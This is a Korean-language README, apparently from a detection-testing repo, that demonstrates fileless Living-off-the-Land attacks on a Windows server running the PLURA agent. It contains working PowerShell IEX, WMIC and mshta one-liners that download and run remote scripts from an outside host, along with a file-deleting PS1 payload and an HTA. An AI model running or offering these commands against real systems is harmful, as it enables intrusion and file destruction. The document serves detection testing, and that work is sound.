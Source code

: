 # 테스트 환경 구축

1. **공격 서버**
   - 웹 서버가 구축되어 있어야 합니다.
   
2. **MALSCRIPT**
   - 공격 서버의 웹루트 디렉터리 내에 위치해야 합니다. (`/var/www/html/`)

3. **MALSCRIPT 공격문의 경로**
   - 피해 서버에서 삭제할 파일의 경로를 입력해야 합니다.

4. **피해 서버**
   - PLURA 에이전트가 설치되어 있어야 합니다.
   - 삭제할 파일 (`C:\Program Files\important-file.txt`)이 존재해야 합니다.
   - ※ 해당 경로에 파일이 존재하지 않을 경우, 공격 성공 여부를 확인할 수 없습니다.

5. **운영 환경**
   - 피해 서버는 Windows 서버로 구성해야 합니다.
   - Windows 실시간 보호 및 V3와 같은 백신 프로그램은 중지해야 합니다.

6. **명령 실행**
   - 피해 서버에서 `cmd` 또는 `PowerShell`을 관리자 권한으로 실행하여 명령문을 수행합니다.

---

# LOL 공격 및 파일리스 공격이란

### LOL (Living Off the Land) 공격
- 시스템에 설치된 합법적인 바이너리, DLL 등의 도구를 이용하여 공격하는 방식.

### 파일리스(Fileless) 공격
- 공격 파일이 피해 서버의 디스크에 저장되지 않고, 메모리에서 직접 실행되는 공격 기법.

다음은 LOL을 활용한 파일리스 공격 방법입니다. 해당 공격 수행 후 PLURA에서 탐지 내역을 확인할 수 있습니다.

---

# 공격 시연 방법

## PowerShell (T1059.001)
- **PowerShell을 사용하여 파일리스 공격 수행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Windows Management Instrumentation (T1047)
- **WMIC를 사용하여 원격 명령 실행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`에서 수행:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Mshta (T1218.005)
- **Mshta를 사용하여 악성 HTA 파일 실행**
- **스크립트:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **공격 성공 시:** 피해 서버에서 "Malicious HTA" 창과 계산기가 실행되며, PLURA에서 탐지 내역 확인 가능.

---

# 주의사항
- **PowerShell, WMIC, Mshta**는 Windows 내 강력한 스크립트 실행 도구로 파일리스 공격을 수행하는 데 자주 사용됩니다.
- 공격자는 디스크에 파일을 저장하지 않고 메모리 내에서 바로 실행하여 탐지 회피를 시도합니다.
- 위 과정을 통해 PLURA의 탐지 기능과 보안 로그를 확인하세요.
